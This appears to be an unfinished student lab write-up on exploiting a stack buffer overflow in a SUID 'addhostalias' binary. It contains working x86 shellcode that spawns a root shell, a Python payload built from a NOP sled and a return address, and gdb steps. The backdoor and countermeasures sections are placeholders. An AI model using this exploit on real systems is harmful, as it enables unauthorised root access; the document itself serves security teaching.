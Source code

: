 # Language-based Security

## Lab 2 - Buffer Overruns

### Part 1 : Gaining root access

In order to gain root access to this machine, we are going to use the `addhostalias` executable file, which seems to be vulnerable to buffer overruns. In order to exploit this, we are going to go through several steps :
- analyse the vulnerability in the code
- use gdb to debug and analyse how the program behave
- find a way to exploit it, in our case we'll use Python which allow us to have our root shell more easily, since it's a high level language, we can focus on the content of our malicious code instead of how to generate it


Firstly let's have a brief explanation of how the stack works in this type of program. In order to maintain consistency during program execution, Linux OS stores in memory everything that is necessary for the program to works, that means it can push data in a stack, but also store address that point to other location memory (for example when a function call is performed). The schema below tries to summarize memory layout:

```
       0x11111111

   4 bytes (32bits OS)
< --------------------->


 ----------------------
|   RETURN ADRESS      | 
 ----------------------
|    BASE POINTER      |
 ---------------------- 
|                      |
|                      |
|                      |
|                      |
|                      |
|       STACK          |
|    (256 bytes)       |
|                      |
|                      |
|                      |
 ----------------------

       0x00000000

```

Our goal is then 

```python
# run a shell on local machine
shellcode = ('\xb9\xff\xff\xff\xff\x31\xc0\xb0\x31\xcd\x80'
             +'\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\xb0'
             +'\x32\xcd\x80\x89\xc3\xb0\x31\xb0\x47\xcd\x80'
             +'\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68'
             +'\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0'
             +'\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x90\x90\x90'
             +'\x90\x90\x90\x90\x90\x90\x90\x90\x90')


# NOP signal, tells the CPU to go to the next instruction
nop = '\x90'
nops = nop*181

# estimated area of the end of the stack
nop_adress = '\x10\xf9\xff\xbf'

# 181 + 75 + 2 + 4 = 262 + 2 characters in printf = 264 bytes of data (instead of 256, so it will overwrite base pointer and return address)
print nops+shellcode,nop*2,nop_adress


```

![How to use GDB to craft our exploit](/assets/lab2/gdb-demo.png)
![Steps of our buffer overflow](/assets/lab2/buffer-overflow.png)


```

 ----------------------
|   RETURN ADRESS      | <------- now redirects approximately to the end of the stack
 ----------------------
|    BASE POINTER      | <------- not important in our case, but it's now overwritten
 ---------------------- 
|                      |
|       MALICIOUS      |
|         CODE         |
|                      |
|         ...          |
|         NOP          |
|         NOP          |
|         NOP          |
 ----------------------

```

The SUID bit is set so the program is vulnerable

`addhostalias $(python gainr00t.py)`

allow gaining root access using our python script

`gdb --args addhostalias $(python -c 'print "\x41"*200') ttt ttt`

allow entering debugging mode

`(gdb) break fopen`

avoid having a permission denied. If we don't do that an error will occur during debugging.

`(gdb) run`

`(gdb) x/100x $sp`

This command displayed 100 words in our memory, allow to see pattern


### Part 2 : Create a Backdoor

lorem ipsum

### Part 3 : Countermeasures

- Canaries : ...
- NX bit : ...
- ASLR : ...


### Sources that helped us gaining root access on the machine

1. [Buffer Overflow Attack, Computerphile](https://www.youtube.com/watch?v=1S0aBV-Waeo&t=589s)
2. [GDB Petit Tutoriel, Daniel Hirschkof](http://perso.ens-lyon.fr/daniel.hirschkoff/C_Caml/docs/doc_gdb.pdf)
3. [Le Débogueur GDB, Anne Canteaut](https://www.rocq.inria.fr/secret/Anne.Canteaut/COURS_C/gdb.html)






